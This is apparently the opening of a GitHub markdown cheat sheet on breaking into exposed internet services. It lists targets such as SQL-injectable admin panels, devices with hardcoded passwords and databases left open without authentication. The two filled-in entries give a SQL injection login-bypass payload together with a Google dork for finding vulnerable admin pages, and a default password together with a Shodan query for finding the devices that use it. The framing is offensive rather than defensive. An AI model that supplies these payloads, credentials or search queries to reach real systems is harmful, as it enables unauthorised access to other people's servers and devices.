 # Table of contents
* [Admin login panels vulnerable to SQLi](https://github.com/komodoooo/Some-things/blob/main/papers.md#Admin-login-panels-vulnerable-to-SQLi)
* [Algo hardcoded password](https://github.com/komodoooo/Some-things/blob/main/papers.md#Algo-hardcoded-password)
* [Android debug bridge misconfiguration](https://github.com/komodoooo/Some-things/blob/main/papers.md#Android-debug-bridge-misconfiguration)
* [BigAnt Admin hardcoded password](https://github.com/komodoooo/Some-things/blob/main/papers.md#BigAnt-Admin-hardcoded-password)
* [Cassandra exposed databases authfree](https://github.com/komodoooo/Some-things/blob/main/papers.md#Cassandra-exposed-databases-authfree)
* [Deep Sea electronics default credentials](https://github.com/komodoooo/Some-things/blob/main/papers.md#deep-sea-electronics-default-credentials)
* [Elasticsearch misconfiguration](https://github.com/komodoooo/Some-things/blob/main/papers.md#Elasticsearch-misconfiguration)
* [Find exposed discord webhooks](https://github.com/komodoooo/Some-things/blob/main/papers.md#Find-exposed-discord-webhooks)
* [Firebase misconfiguration](https://github.com/komodoooo/Some-things/blob/main/papers.md#Firebase-misconfiguration)
* [FTP servers with anonymous login allowed ](https://github.com/komodoooo/Some-things/blob/main/papers.md#FTP-servers-with-anonymous-login-allowed)
* [Fujitsu IP series hardcoded credentials](https://github.com/komodoooo/Some-things/blob/main/papers.md#Fujitsu-IP-series-hardcoded-credentials)
* [Jenkins code execution](https://github.com/komodoooo/Some-things/blob/main/papers.md#Jenkins-code-execution)
* [LDAP anonymous binding allowed]https://github.com/komodoooo/Some-things/blob/main/papers.md#LDAP-anonymous-binding-allowed)
* [LG Signage default credentials](https://github.com/komodoooo/Some-things/blob/main/papers.md#LG-Signage-default-credentials)
* [Redis auth free access](https://github.com/komodoooo/Some-things/blob/main/papers.md#Redis-auth-free-access)
* [Rsync exposed files](https://github.com/komodoooo/Some-things/blob/main/papers.md#Rsync-exposed-files)
* [SIMATIC HMI_Panel default credentials](https://github.com/komodoooo/Some-things/blob/main/papers.md#SIMATIC-HMI_Panel-default-credentials)
* [SMB server misconfiguration](https://github.com/komodoooo/Some-things/blob/main/papers.md#SMB-server-misconfiguration)
* [SQLite Web free panel](https://github.com/komodoooo/Some-things/blob/main/papers.md#SQLite-web-free-panel)
* [Vinchin default MySQL credentials](https://github.com/komodoooo/Some-things/blob/main/papers.md#Vinchin-default-MySQL-credentials)
* [VNC Servers with auth disabled](https://github.com/komodoooo/Some-things/blob/main/papers.md#VNC-Servers-with-auth-disabled)
<br><br>_"A bit of my experience about messing around on the internet"_<br><br>

# Admin login panels vulnerable to SQLi
Payload: _`1'or'1'='1`_
### Google dork
[`intitle:"Login" inurl:/admin/index.php`](https://www.google.com/search?q=intitle%3A%22Login%22+inurl%3A%2Fadmin%2Findex.php)
# Algo hardcoded password
### Login
Default password: _`algo`_
### Shodan query
[`http.favicon.hash:-1024590169`](https://www.shodan.io/search?query=http.favicon.hash%3A-1024590169)